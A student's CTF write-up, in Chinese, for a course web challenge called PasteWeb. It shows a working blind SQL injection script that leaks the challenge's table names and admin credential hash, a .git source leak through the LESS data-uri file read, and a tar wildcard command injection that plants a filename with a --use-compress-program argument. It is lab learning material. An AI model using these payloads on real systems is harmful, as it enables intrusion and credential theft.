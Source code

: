# Web writeup

Done: Yes
Due date: December 28, 2022
Subject: 計算機安全

## 0x1 PasteWeb

### FLAG1

這題是一個 Login 介面，先嘗試 `a’ or 1=1 --` 發現 Username 可以做 sql injection，但是是 blind injection，只能透過回傳的 **Bad hacker! 或 Login Failed!** 來判斷是否 inject 成功，試了幾種不同的語法猜測這題應該是用 **posgresql**，所以可以用`array_to_string(array(select xxx from yyy),',')`(ref: Kaibro Web Ctf Cheetsheet)把所有查詢結果合併成 string，再用`ascii(SUBSTRING("abc", 1, 1))` 跟 **binary search** 就可以一個 char 一個 char 把資訊 leak 出來。( Bad hacker 跟 Login Failed 結果好像不會透過 Responce 封包回傳，和 r10921a11 討論後發現可以用 selenium 爬蟲爬瀏覽器資訊找到顯示的 element )

**Step 1 : Leak table name**

RESULT =  **pasteweb_accounts,s3cr3t_t4b1e,pg_statistic,pg_type,pg_for…**

**Step 2 : Leak columns name in table**

- **pasteweb_accounts**
    
    RESULT =  ***user_id,user_account,user_password***
    
- **s3cr3t_t4b1e**
    
    RESULT =  ***fl4g***
    

**Step 3: Leak  fl4g from s3cr3t_t4b1e**

*FLAG{B1inD_SqL_IiIiiNj3cT10n}*

這題大概到這裡就結束了，但我 leak 出 admin 密碼時發現無法登入，密碼像是加密過的，丟去 crack station 可以破解 md5 得到原始密碼 **P@ssw0rD**

```python
import requests
import json
import getpass
import warnings
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
import time

def login(driver, username, password):
	driver.find_element(By.XPATH,"/html/body/div/div/div/form/label[1]/input").clear()
	driver.find_element(By.XPATH,"/html/body/div/div/div/form/label[2]/input").clear()
	#time.sleep(0.5)
	driver.find_element(By.XPATH,"/html/body/div/div/div/form/label[1]/input").send_keys(username)
	driver.find_element(By.XPATH,"/html/body/div/div/div/form/label[2]/input").send_keys(password)
	driver.find_element(By.XPATH,"/html/body/div/div/div/form/button").click()
	#time.sleep(0.3)
	msg = driver.find_element(By.XPATH,'/html/body/div[2]/p[2]')

	return msg.text

def boolean_leak(command):
	username = command
	password = 'nvmd'
	time.sleep(0.3)
	msg = login(driver, username, password)
	if msg == 'Bad Hacker!':
		return 1
	return 0

def binary_search(cmd):
	min_ascii = 32
	max_ascii = 126

	while(min_ascii <= max_ascii):
		guess = (min_ascii+max_ascii)//2
		#print(guess)
		big = cmd + '>' +str(guess)
		big = "a' or "+big+"--"

		small= cmd + '<' +str(guess)
		small = "a' or "+small+"--"

		if boolean_leak(big):
			min_ascii = guess+1
		elif boolean_leak(small):
			max_ascii = guess-1
		else:
			return chr(guess)
	return "....NOTHING LEFT...."
	
	

if __name__ == '__main__':
	warnings.filterwarnings('ignore')
	chrome_options = Options()
	chrome_options.add_argument('--headless')
	chrome_options.add_argument('--no-sandbox')
	chrome_options.add_argument('--disable-dev-shm-usage')
	driver = webdriver.Chrome(options=chrome_options)

	# Login
	root_url = "http://edu-ctf.zoolab.org:10210/"
	
	driver.get(root_url)
	ans = ''
	for i in range(0,500):
		# Leak tablename
		# cmd = "ascii(substr(array_to_string(array(SELECT tablename FROM pg_tables ),','),{},1))".format(i+1)
		# RESULT pasteweb_accounts,s3cr3t_t4b1e,pg_statistic,pg_type,pg_for

		# Leak pasteweb_accounts column
		# cmd = "ascii(substr(array_to_string(array(SELECT column_name FROM information_schema.columns WHERE table_name='pasteweb_accounts'),','),{},1))".format(i+1)
		# RESULT user_id,user_account,user_password

		# Leak s3cr3t_t4ble column
		# cmd = "ascii(substr(array_to_string(array(SELECT column_name FROM information_schema.columns WHERE table_name='s3cr3t_t4b1e'),','),{},1))".format(i+1)
		# RESULT fl4g
		
		# Leak user_account and user_password from pasteweb_accounts
		cmd = "ascii(substr(array_to_string(array(SELECT user_account||':'||user_password from pasteweb_accounts),','),{},1))".format(i+1)
		# RESULT admin:00ff3da3f03eb731c08c1a34de757574,p609:IGldNRiLSejE

		# Leak fl4g from s3cr3t_t4ble
		# cmd = "ascii(substr(array_to_string(array(SELECT fl4g from s3cr3t_t4b1e),','),{},1))".format(i+1)
		# RESULT FLAG{B1inD_SqL_IiIiiNj3cT10n}
	
		ans+=binary_search(cmd)
		print("CURRENT STRING LEAK:",ans,'LEN:',len(ans))
	
```

### FLAG2

這題題目要從 source code 找 flag，先查了一下 less 是什麼東西，發現透過 data-uri 這個 func 能讀取本機檔案，所以用以下語法嘗試 leak php file:

```python
.text{
	AAA: data-uri("index.php")
}
```

結果顯示 **No PHP!** ，用 Burp Suite 強制送給後端或用大小寫混肴也不行，後來看了一下 robots.txt 發現其實有 .git 可以 leak，但是無法透過網頁存取，只能用 data-uri慢慢讀取，所以網路上的還原工具基本上都不能用了。繼續查詢 git 運作原理後統整出了以下方法來把 .git 資料夾完整提取。

1. 找出一些已知路徑檔案。
    
    例如 `‘.gitignore’, '.git/info/refs', '.git/logs/HEAD', '.git/logs/refs/heads/master'....`  像這題可以 leak 出 .git/logs/HEAD ，把 data-uri 結果用 base64 decode 即可看到之前的 commit history。
    
2. 重建 commit objects。
    
    由於 git 的檔案存放邏輯為 hash 的前兩位為資料夾，後面為檔名存在 .git/objects 資料夾中，例如第一筆 commit:
    
    `f7fac4b9675f72b3333c732e7ed5a0066d78599d commit: Add flag` 
    
    Hash 值為 *f7fac4b….* 所以這個 commit object存放位置為 *.git/objects/f7/fac4b9…..* 有了存放位置跟檔名又可以用 data-uri讀出來。
    
    這時用 git cat-file “commit_hash” 即可還原 commit
    
    ```bash
    ❯ git cat-file -p f7fac4b9675f72b3333c732e7ed5a0066d78599d
    
    tree fcd8b9d52a82bc3dc614bfb80598c3483984ce99
    parent 7d7ccfd5ddfd6714a4e712e560924704ddb9c42e
    author developer <developer@gmail.xxxx> 1670356511 +0000
    committer developer <developer@gmail.xxxx> 1670356511 +0000
    
    Add flag
    ```
    
3. 重建 tree objects。
    
    從 step 2 的結果可以看到 commit 中有顯示 tree 資訊，而這個 tree 也是用相同邏輯存放的，所以我們一樣利用 data-uri 跟 hash 把 tree object 給 leak 出來。最後用 git ls-tree “tree_hash” 即可看到 tree 的資訊
    
    ```bash
    ❯ git ls-tree fcd8b9d52a82bc3dc614bfb80598c3483984ce99
    100644 blob b1d52f3b90279a6fae59195030943447c7c8977a	download.php
    100644 blob 2dfb7f975434b786b30506a537fc318d494f374c	editcss.php
    100644 blob 19092ed3c2ac784759968ba1609c3648bc365385	edithtml.php
    100644 blob 4682c0755761ff4e4724df9495f151212bebcf01	index.php
    100644 blob b66e22d6d4a2a5b9b17ca66165485cf2c8cf8025	lessc.inc.php
    100644 blob 61b703a297c84d929ff7e23004b9a731c0fb8de6	share.php
    100644 blob a360d0d06ebd2c52c1da71adc3b6e95fc838869a	view.php
    ```
    
4. Source code leak
    
    有了前幾步的經驗應該就知道怎麼對付 tree 中的 filename 跟 hash 了。用 git cat-file 讀取 source code 找到 flag
    
    ```bash
    ❯ git cat-file -p  4682c0755761ff4e4724df9495f151212bebcf01
    <?php
      // Here is your second FLAG: FLAG{a_l1tTl3_tRicKy_.git_L34k..or_D1d_y0u_f1nD_a_0Day_1n_lessphp?}
      session_start();
      if(isset($_SESSION['name'])){
        header("Location: /edithtml.php");
        die();
      }
      $now = new DateTime();
    ```
    

**Code** 

由於有大量註解（每一個 commit, tree, file 的 hash, object）所以用附檔 (FLAG.py)

### FLAG3

提示為command injection，找到 download.php 有 `shell_exec("tar -cvf download.tar *");` 這段 code ，上網查了一下針對 tar 的 wildcard injection 為建立檔名為 ***--checkpoint=1*** 還有 ***--checkpoint-action=action*** ，這樣 tar 就會把這 2 個 file name 當作 argument 執行。由於 editcss.php 中可以靠傳入 theme 來創立任意檔名，但結尾都會被裝上 .css 副檔名，這樣會讓 --checkppoint=1 這行失效，經由助教提示發現 tar不止這個 argument 能執行 shell command，我發現還有 ***--use-compress-program=COMMAND*** 這個 argument，所以整體流程為以下：

1. 用 edithtml 把 shell script 寫入 html

```bash
/readflag > index.html
# 把執行結果輸出到原檔 方便直接 view 結果
```

1. 用 burp 送一個 theme，建立一個 `-use-compress-program=sh "index.html" || *.css` 的檔案
2. 按下 Download，如果下載一個 0B 的 tar，代表 inject 成功
3. 按 view 即可看到 FLAG